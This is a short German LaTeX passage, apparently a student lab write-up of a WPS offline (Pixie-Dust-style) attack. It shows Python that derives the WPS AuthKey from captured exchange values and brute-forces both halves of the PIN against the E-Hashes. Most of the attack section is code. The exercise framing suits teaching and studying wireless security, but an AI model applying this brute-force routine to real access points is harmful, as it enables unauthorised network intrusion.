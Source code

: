 \section{WPS}
Im Folgenden sollten wir einen WPS-Offline-Angriff durchführen und den gegebenen Code-Snippet so erweitern, dass er funktioniert.\\
Folgend ist der Ausschnitt zu betrachten mit dem wir zum Ziel gekommen sind.
\begin{verbatim}
EHASH1 = binascii.unhexlify('C5FB...')
EHASH2 = binascii.unhexlify('33D3...')
ENonce = binascii.unhexlify('AB456D913C0BFC13CFA2F9F4F1ABD893')
RNonce = binascii.unhexlify('CBA417007AD25F922ED764B27E790E8B')
PK_E = binascii.unhexlify('86DE...')
PK_R = binascii.unhexlify('4622...')
pubkey_registrar = int("4622...",16)
secret_number = 1631...
shared_key = bignum_pack(pow(pubkey_registrar, secret_number, prime_int), 192)
DHKey_berechnen = hashlib.sha256(shared_key).digest()
DHKey=binascii.unhexlify('6d32...')

# Check ob Berechnung genauso wie gegebener DH-KEy
if(DHKey_berechnen==DHKey):
    print("DHKey_berechnung erfolgreich")

MAC = b"02:00:2e:a9:55:32"
# Schlüsselberechnung
KDK = hmac.new(DHKey, ENonce + MAC + RNonce, hashlib.sha256).digest()
AuthKey, KeyWrapKey, EMSK = kdf(KDK, 'Wi-Fi Easy and Secure Key Derivation'.encode('utf-8'), [256, 128, 256])

def brute_force1():
        for i in range(10000):
            pin1 = f"{i:04d}".encode()
            psk1 = hmac.new(AuthKey, pin1, hashlib.sha256).digest()[:16]

            test_EHash = hmac.new(AuthKey, b'\x00' * 16 + psk1 + PK_E + PK_R, hashlib.sha256).digest()

            if test_EHash == EHASH1:
                return f"GEFUNDEN: {i:04d}"
        return "Kein Treffer"

      
def brute_force2():
    for i in range(10000):
        pin2 = f"{i:04d}".encode()
        psk2 = hmac.new(AuthKey, pin2, hashlib.sha256).digest()[:16]

        test_EHash = hmac.new(AuthKey, b'\x00' * 16 + psk2 + PK_E + PK_R, hashlib.sha256).digest()

        if test_EHash == EHASH2:
            return f"GEFUNDEN: {i:04d}"
    return "Kein Treffer"
\end{verbatim}
Mit den gegebenen Werten haben wir also den Auth-Key berechnet und anschließend mit Brute-Force alle Passwortoptionen getestet. Dort berechnen wir den PSK mit unserem geratenen Passwort und dann den Hash, sodass wir diesen mit dem Ziel-Hash vergleichen können.